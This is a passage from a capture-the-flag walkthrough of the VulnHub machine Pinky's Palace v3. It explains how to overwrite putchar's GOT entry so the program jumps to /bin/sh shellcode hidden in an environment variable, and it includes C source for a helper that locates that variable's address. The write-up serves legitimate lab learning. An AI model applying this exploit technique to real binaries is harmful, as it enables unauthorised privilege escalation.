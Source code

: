 When the program calls `putchar`, it `JMP`s to the address contained in `0x804a01c`. What address do we put in `0x804a01c`?

It's possible to put shellcode in an environment variable. The beauty of doing so—you can locate the address of the environment variable with code like this, since it's located in the `/usr/local/bin/PSMCCLI`'s stack.

<div class="filename"><span>getenvaddr.c</span></div>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char *ptr;

    if(argc < 3) {
        printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
        exit(0);
    }
    ptr = getenv(argv[1]); /* get env var location */
    ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
    printf("%s will be at %p\n", argv[1], ptr);
}
```

![82a14525.png](/assets/images/posts/pinkys-palace-v3-walkthrough/82a14525.png)

I've chosen a small-sized [shellcode](http://shell-storm.org/shellcode/files/shellcode-827.php) that runs `/bin/sh`. Let's export the shellcode into an environment variable, say `SPLOIT`, and run `getenvaddr` against it like so.

![bae6afdd.png](/assets/images/posts/pinkys-palace-v3-walkthrough/bae6afdd.png)


[1]: https://www.vulnhub.com/entry/pinkys-palace-v3,237/
[2]: https://twitter.com/@Pink_P4nther
[3]: https://www.vulnhub.com/